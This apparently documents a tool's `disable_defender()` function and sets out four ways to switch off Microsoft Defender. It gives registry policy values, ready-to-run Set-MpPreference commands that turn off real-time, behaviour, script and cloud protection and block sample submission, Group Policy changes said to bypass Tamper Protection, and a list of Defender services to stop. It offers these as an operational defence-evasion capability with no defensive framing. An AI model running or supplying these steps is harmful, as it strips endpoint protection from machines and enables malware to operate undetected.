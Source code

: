 ## 🔧 Defender Disable Methods (4 Methods Used)

The `disable_defender()` function uses **4 comprehensive methods**:

### 1️⃣ Registry Method
**Target:** `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender`

**Changes:**
- `DisableAntiSpyware = 1` (Completely disable Defender)
- `DisableRealtimeMonitoring = 1` (Turn off real-time protection)
- `DisableBehaviorMonitoring = 1` (Turn off behavior monitoring)
- `DisableOnAccessProtection = 1` (Turn off file scanning)
- `DisableIOAVProtection = 1` (Turn off downloaded file scanning)
- `DisableScanOnRealtimeEnable = 1` (No scans when enabled)

**Admin Required:** Yes (HKLM) / Partial (HKCU)

---

### 2️⃣ PowerShell Method
**Commands executed:**
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableScriptScanning $true
Set-MpPreference -DisableBlockAtFirstSeen $true
Set-MpPreference -SubmitSamplesConsent 2  # Never send samples
Set-MpPreference -MAPSReporting 0  # Disable cloud protection
```

**Admin Required:** Yes

---

### 3️⃣ Group Policy Method
**Target:** Local Group Policy modifications

**Changes:**
- Disables Windows Defender via Group Policy
- Bypasses Tamper Protection restrictions
- Forces policy refresh

**Admin Required:** Yes

---

### 4️⃣ Service Disable Method
**Services stopped and disabled:**
- `WinDefend` (Windows Defender Antivirus Service)
- `wscsvc` (Windows Security Center Service)
- `WdNisSvc` (Windows Defender Network Inspection Service)
- `Sense` (Windows Defender Advanced Threat Protection)
- `WdFilter` (Windows Defender File System Filter)

